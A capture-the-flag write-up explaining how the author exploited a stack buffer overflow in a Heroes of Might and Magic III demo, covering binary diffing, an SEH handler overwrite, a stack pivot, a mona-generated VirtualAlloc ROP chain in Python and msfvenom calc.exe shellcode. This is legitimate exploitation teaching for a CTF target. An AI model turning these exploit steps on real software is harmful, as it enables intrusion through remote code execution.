



# Heroes of Might and PWN (windows, seh, game, VirtualAlloc)
This was a great challenge! It has also the lowest number of solves at [hackcert](https://hack.cert.pl/challenges) platform! It took me some time as I'm new to windows hacking and I spend a lot of time looking for setting the lab.

## CVE
From the story in task description we know that the server is running patched demo version of Heroes and Might and Magic 3. The unpatched version was vulnerable to some kind of popular exploit as it has been exploited by a script kiddie.

Searching through exploitdb I have quickly found the ['Heroes of Might and Magic III .h3m Map file Buffer Overflow'](https://www.exploit-db.com/exploits/37737) exploit from task description.

The exploit description states:
```
This module embeds an exploit into an ucompressed map file (.h3m) for
Heroes of Might and Magic III. Once the map is started in-game, a
buffer overflow occuring when loading object sprite names leads to
shellcode execution.
```

This raw description doesn't tell us to many details about where the vulnerability occurs. It just says that there is a buffer overflow in part of program responsible for parsing the sprite names.

## Patch
But we also received the patched version of the game. Problem was that the two executables: `h3demo.exe` and `h3demo_unpached.exe` are huge and I didn't want to reverse them manualy.
I needed a way to compare two raw `.exe` files. I love Ghidra and I find it way more intuitive then IDA, but I have to say that there is one big advantage of IDA over Ghidra – the number of avaible plugins.

As you have perhaps guessed, I've found <b>amazing</b> plugin for comparing `exe` files. [diaphora](https://github.com/joxeankoret/diaphora) is not only well documented but really simple to use.

And so diaphora has found one function which is different between versions:



it also allows us to compare the function in pseudocode, or display the differences on the graph.

## RE
Now I had to understand the patch. Moreover I also had to understand the orginal vulnerability as I didn't look into it yet. With some staring at the assembly and some testing on unpatched version I have successfuly reversed the critical part of the code.

While testing I had some problems with running Heroes 3 under x64dbg as the game window was covering the debugger. I've bypassed this by using `window key + tab` and dragging the game window to the other desktop. But if you know a better solution, please share:)

But back to the pseudocode. I've confirmed that unpatched version is vulnerable to simple buffer overflow. The program allocates 96 bytes for sprite name and then reads the sprite_name_len from map and finally reads the sprite_name_len bytes into sprite_name.

Unpatched:
```c
char sprite_name[96];
DWORD sprite_name_len;

read_n_bytes_from_map(raw_map, &sprite_name_len, sizeof DWORD);
read_n_bytes_from_map(raw_map, sprite_name, sprite_name_len);
```

What is interesting, the patched version doesn't mitigate the buffer overflow. But it checks if the provided sprite_name contains more then one null byte (normal strings have just one, the ending null byte). If it does, it crashes the application by moving 0 under address 0 and so causing SIGSEV.

```c
char sprite_name[96];
DWORD sprite_name_len, null_bytes_num;

read_n_bytes_from_map(raw_map, &sprite_name_len, sizeof DWORD);
read_n_bytes_from_map(raw_map, sprite_name, sprite_name_len);

/* Check if sprite name contains no more then one null byte. */
for (int i = sprite_name_len; i >= 0; i--) {
    if (sprite_name[i] == 0)
        null_bytes_num += 1;
}
if (null_bytes_num > 1) {
    /* Crash application. */
    __asm__("mov [0], 0;\n"::);    
}
```

## SEH
At first I thought of some kind of null byte free payload. But to succeed I would need to understand the rest of the flow of the vulnerable function. In the orginal exploit they mention a `Anticrash` gadgets. Both contain null bytes. This is because the `demo.exe` is not position independend and will always be loaded at default 0x00400000 address (so any gadget will have leading 00 byte).

But thanks to Microsoft, there is a way easier technique! If you google for windows exploitation, the huge part of results will contain a SEH keyword. Structured Exception Handling is a windows specific mechanism. I won't go over how this works here as there are plenty of great materials on internet. You can even watch a nice video [here](https://www.rapid7.com/resources/structured-exception-handler-overwrite-explained/).
But basicaly, windows programs keep a linked list of `EXCEPTION_REGISTRATION_RECORDS`. Each of these records has a pointer to next record and pointer to function responsible for handling the exception. Such function will check if it can handle the exception and if not it will pass the exception to next record. You might wonder where is this list stored. And this is crucial for us as attackers – it is stored at the stack!

So let's examine the stack right before we read the sprite name.

```
Registers:
EAX : 00000251
EBX : 00000001
ECX : 06CC5900
EDX : 0019C43C
EBP : 06CC5900
ESP : 0019C418
ESI : 06CC5900
EDI : 0019C4A0
EIP : 004DBAE3     <h3demo.buffer_overflow>


Stack:
0019C418  00000251  
0019C41C  00000000  
0019C420  02A0CA38  
0019C424  06CC5900  
0019C428  00000001  
0019C42C  00000000  
0019C430  00000251  
0019C434  0019C470  
0019C438  0059BCB7  
0019C43C  00000000  char sprite_name[96]
0019C440  00000000  
0019C444  00000000  
0019C448  00000000  
0019C44C  00000000  
[...]
0019C4A8  02AEC130  
0019C4AC  004DC716 
0019C4B0  004DC773  return to h3demo.004DC773 from h3demo.vulnerable_func
0019C4B4  06CC5900  
0019C4B8  02AEC130  
0019C4BC  02A308F0  
[...]
0019C520  00000000  
0019C524  0019C594  Pointer to SEH_Record[1]
0019C528  005AC800  
0019C52C  FFFFFFFF  
0019C530  004D66E0  
```

As `read_n_bytes_from_map` is using `__fastcall` calling convention we see, that the arguments passed to it are:

```
ecx: 0x06CC5900 (raw_map)
edx: 0x0019C43C (sprite_name buffer located on the stack)
[esp]: 0x251 (sprite_name_len)
```

## Getting control over EIP
So our goal is to overwrite SEH record. In fact we just want to overwrite the handler field. We can see above that SEH record is located at 0x0019C524. The handler field is the second field in the structure and so it is at address 0x0019C528. The sprite_name buffer starts at 0x0019C43C. So to overflow the handler we need to write: 236 (0x0019C43C - 0x0019C528) bytes.

To ease testing I've rewriten the orginal exploit to python3 as it is way easier to manipulate the payload this way.

At this point we have full control over EIP.

## EIP to ROP
We do control the EIP, but the question was, what's next? We cannot just jump to our shellcode located on the stack as ASLR and DEP are both enabled. But we could try to create a ROP chain as we control the stack. But we have to increase the esp to point to our payload. Let's examine registers when execution is passed to us:



```
EAX : 00000000
EBX : 00000000
ECX : 42424242
EDX : 77538E90     ntdll.77538E90
EBP : 0019BE88
ESP : 0019BE68
ESI : 00000000
EDI : 00000000
EIP : 42424242
```

The ESP is at 0x0019BE68 and we want to pivot it down the stack to array we control: [0x0019C43C-...].

I've used great plugin `mona` and `Immunity Debugger` to find stack pivot suggestions.
Run `demo.exe` under `Immunity Debugger`, set workdir with command: `!mona config -set workingfolder c:\logs\%p_%i`. Then run rop command: `!mona rop` which will generate:

1) rop.txt
2) rop_chains.txt
3) rop_suggestions.txt
4) stackpivot.txt
files.

For now the interesting one is `stackpivot.txt.` We can use it to find some useful gadgets. It is really amazing. It generated over 20k possible pivots and sorted for us:

```
# stackpivot.txt
Stack pivots, minimum distance 8
-------------------------------------
Non-SafeSEH protected pivots :
------------------------------
0x00402b88 : {pivot 8 / 0x08} :  # POP ESI # POP EBX # RETN 0x0C    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x00402cb4 : {pivot 8 / 0x08} :  # POP ESI # POP EBX # RETN 0x0C    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x00402fdf : {pivot 8 / 0x08} :  # POP EBP # POP EBX # RETN 0x0C    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x004038f7 : {pivot 8 / 0x08} :  # ADD ESP,8 # RETN 0x0C    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x00403914 : {pivot 8 / 0x08} :  # ADD ESP,8 # RETN 0x0C    ** [h3demo.exe] **   |  startnull,asciiprint,ascii {PAGE_EXECUTE_READ}
0x0040398c : {pivot 8 / 0x08} :  # ADD ESP,8 # RETN 0x0C    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x004039ee : {pivot 8 / 0x08} :  # ADD ESP,8 # RETN 0x0C    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
[...]
0x0042988f : {pivot 1672 / 0x688} :  # POP EBX # ADD ESP,684 # RETN 0x04    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x004298a5 : {pivot 1672 / 0x688} :  # POP EBX # ADD ESP,684 # RETN 0x04    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x0054a7e3 : {pivot 1816 / 0x718} :  # ADD ESP,718 # RETN 0x04    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x0054a803 : {pivot 1816 / 0x718} :  # ADD ESP,718 # RETN 0x04    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
0x0054acb1 : {pivot 1816 / 0x718} :  # ADD ESP,718 # RETN 0x04    ** [h3demo.exe] **   |  startnull {PAGE_EXECUTE_READ}
[...]
```

I've chosen gadget at address `0x0054a7e3` for no reason. It pivots the stack by 1816 bytes, so after the pivot, the esp will point to: 0x19c580. This is 88 (0x19c580 - 0x0019C528) bytes after the overwriten handler. This means our payload will look like:

```python3
pivot = pack('<L', PIVOT_1816_GADGET)
pivot  += (1816 - 1732) * b'A'

# Then trigger ROP chain
rop = create_rop_chain()

# Construct a malicious object entry with a big size.
payload_size = SEH_HANDLER_OFST + len(pivot) + len(rop)
payload = pack('<L', payload_size)
payload += b'\x00' * 2 + b'A' * (SEH_HANDLER_OFST - 6)
payload += pivot
payload += rop
```

## ROP to shellcode
Right now we can execute ROP of our choice. In fact this is enought to do anything we would like. But I really wanted to gain ability to execute shellcode of my choice. This would allow me to easly test shellcodes I find on internet.

There are standard ways to bypass DEP on windows. Windows API provides few useful functions for this: `VirtualProtect`, `VirtualAlloc`, `SetInformationProcess`, `SetProcessDEPPolicy`.

Looking through `IAT` import api table (elf's `plt` table) in IDA I've found the `VirtualAlloc`.

Moreover we can use `mona` again! It will find correct gadgets for us and even parse them to python code! At first I was confused that it places all arguments in registers as WinAPI uses `__stdcall` calling convention, but if you look closely, the last gadget is `pushad` instruction which will push all registers onto the stack.
You can find the ropchains in `rop_chain.txt` file generated before.


```python3
def create_rop_chain():
    '''Register setup for VirtualAlloc() :
        --------------------------------------------
        EAX = NOP (0x90909090)
        ECX = flProtect (0x40)
        EDX = flAllocationType (0x1000)
        EBX = dwSize
        ESP = lpAddress (automatic)
        EBP = ReturnTo (ptr to jmp esp)
        ESI = ptr to VirtualAlloc()
        EDI = ROP NOP (RETN) '''
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x005a6a80,  # POP EAX # RETN [h3demo.exe] 
        0x41414141,  # Added manually, as stack_pivot ends with ret 4
        0x005b4068,  # ptr to &VirtualAlloc() [IAT h3demo.exe]
        0x005a2d01,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [h3demo.exe] 
        0x0056ce54,  # XCHG EAX,ESI # RETN [h3demo.exe] 
        #[---INFO:gadgets_to_set_ebp:---]
        0x005a7b1b,  # POP EBP # RETN [h3demo.exe] 
        0x004d1f4d,  # & call esp [h3demo.exe]
        #[---INFO:gadgets_to_set_ebx:---]
        0x0054646d,  # POP EBX # RETN [h3demo.exe] 
        0x00000001,  # 0x00000001-> ebx
        #[---INFO:gadgets_to_set_edx:---]
        0x005a0ae0,  # POP EDX # RETN [h3demo.exe] 
        0x00001000,  # 0x00001000-> edx
        #[---INFO:gadgets_to_set_ecx:---]
        0x005aa177,  # POP ECX # RETN [h3demo.exe] 
        0x00000040,  # 0x00000040-> ecx
        #[---INFO:gadgets_to_set_edi:---]
        0x0053b8e2,  # POP EDI # RETN [h3demo.exe] 
        0x0050c542,  # RETN (ROP NOP) [h3demo.exe]
        #[---INFO:gadgets_to_set_eax:---]
        0x005a0574,  # POP EAX # RETN [h3demo.exe] 
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x0059c334,  # PUSHAD # RETN [h3demo.exe] 
    ]
    return b''.join(pack('<I', _) for _ in rop_gadgets)
```

As you can see, I've added manually the 0x41414141 junk as stack pivot ends with `retn 4` which pops 4 bytes from the stack. Other then that this ROP will add the executable flag to stack's memory and jump to the code on the stack after the ROP.
This is great – the corelan team done amazing job with the mona plugin.

## POC
Let's test our shellcode. I will use a standard `calc.exe` as POC generated using `msfvenom`:

```console
$ msfvenom -a x86 —platform windows -p windows/exec cmd=calc.exe  -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 193 bytes
Final size of python file: 948 bytes
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
```

Now just put it into the [exploit](exp.py):

